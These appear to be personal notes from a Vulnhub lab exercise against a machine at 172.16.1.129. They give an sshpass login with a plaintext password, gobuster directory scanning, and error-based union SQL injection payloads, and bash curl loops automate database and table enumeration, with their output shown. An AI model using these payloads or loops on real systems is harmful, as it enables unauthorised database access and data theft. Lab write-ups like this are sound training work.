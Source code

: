 Vulnhub
[[SSH attack]]
`$sshpass -p 'CIA' ssh nicky@172.16.1.129 'ping -c 1 172.16.1.129'` *Run commands y using a SSH session (it's important to get fingerprint before)*

`$tcpdump -i ens33 icmp -n` *Listen for connections to interface ens33*

`$gobuster dir -u http://172.16.1.129/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  -t 20 --add-slash` *using 20 threads*

![[Pasted image 20240315210056.png]]

## SQL Injection
[[Error-based SQL-Injection]]

1' order by 100-- - *Injection on URL to guess column numbers*

http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,%22test%22,5,6,7--%20- *we produce an error using -1 to get the values set in union statement*
### BD Enumeration

http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,schema_name,5,6,7%20from%20information_schema.schemata%20limit%201,1--%20- *We get BD names by setting different limits*
#### by group contact
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,group_concat(schema_name),5,6,7%20from%20information_schema.schemata--%20-
#### Automation
 `for i in $(seq 0 10); do echo "[+] BD $i: $(curl -s -X GET "http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,schema_name,5,6,7%20from%20information_schema.schemata%20limit%20$i,1--%20-" | grep "Cost :"| html2text | awk 'NF{print $NF}')"; done`
> [+] BD 1: BlackMarket
[+] BD 2: eworkshop
[+] BD 3: mysql
[+] BD 4: performance_schema
### Tables Enumeration

Of all the DBs, not only the first one
http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,table_name,5,6,7%20from%20information_schema.tables%20limit%200,1--%20-
*payload using union select to get the first table name which is in 4th column*. Limit 0 1 to get the fist one, 1 1, the second one and so on

`curl -s -X GET 'http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,table_name,5,6,7%20from%20information_schema.tables%20limit%200,1--%20-' | grep "Cost :" | html2text | awk 'NF{print $NF}'` *get the first table*
>CHARACTER_SETS


#### Automation
`for i in $(seq 1 100); do echo "[+] Pour le valuer $i: $(curl -s -X GET "http://172.16.1.129/vworkshop/sparepartsstoremore.php?sparepartid=-1%27%20union%20select%201,2,3,table_name,5,6,7%20from%20information_schema.tables%20limit%20$i,1--%20-" | grep "Cost :" | html2text | awk 'NF{print $NF}')"; done` *iterator to enumerate tables*
>[+] Pour le valuer 1: COLLATIONS
[+] Pour le valuer 2: COLLATION_CHARACTER_SET_APPLICABILITY
[+] Pour le valuer 3: COLUMNS
[+] Pour le valuer 4: COLUMN_PRIVILEGES
